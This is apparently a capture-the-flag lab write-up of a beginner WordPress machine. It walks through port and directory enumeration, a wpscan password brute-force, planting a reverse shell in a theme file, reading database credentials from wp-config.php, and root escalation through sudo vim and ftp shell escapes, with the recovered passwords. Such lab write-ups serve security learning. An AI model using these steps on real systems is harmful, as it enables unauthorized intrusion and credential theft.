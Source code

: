 tags: #privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP

IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```

![Pasted image 20240609193857](https://github.com/BGhoster/Write-Ups/assets/43526966/6f731958-4edc-4420-ba9c-9a21f28a5c53)


```
nmap -p- -A 10.10.250.171 -T5
```

![Pasted image 20240609202648](https://github.com/BGhoster/Write-Ups/assets/43526966/3c27e9d4-23d0-4cca-8a2d-ae46d1dea82e)

## Open ports
80: HTTP
4512: ssh

# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

![Pasted image 20240609194252](https://github.com/BGhoster/Write-Ups/assets/43526966/1146d672-58b9-4d46-8d99-fb766a8419b0)

## Directories
/wp-content (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]

/wp-includes (Status: 301) [Size: 320] [--> http://10.10.250.171/wp-includes/]

/wp-admin (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]

/hidden (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

## Usernames (Found from /hidden)
Hugo

C0ldd

Philip

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerability with how XML-RPC is set up. Let's try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**

![Pasted image 20240609204402](https://github.com/BGhoster/Write-Ups/assets/43526966/5a0eb63e-28cd-40c2-92e1-150f619f735c)


# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERRM=xterm
```
```
stty raw -echo && fg    
```

# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![Pasted image 20240609210033](https://github.com/BGhoster/Write-Ups/assets/43526966/fad8129f-ab7d-4f2d-96f7-85984efa1728)

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```

![Pasted image 20240609210351](https://github.com/BGhoster/Write-Ups/assets/43526966/d3af7755-0fb4-491c-8d7a-13b603b45e9a)

## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE

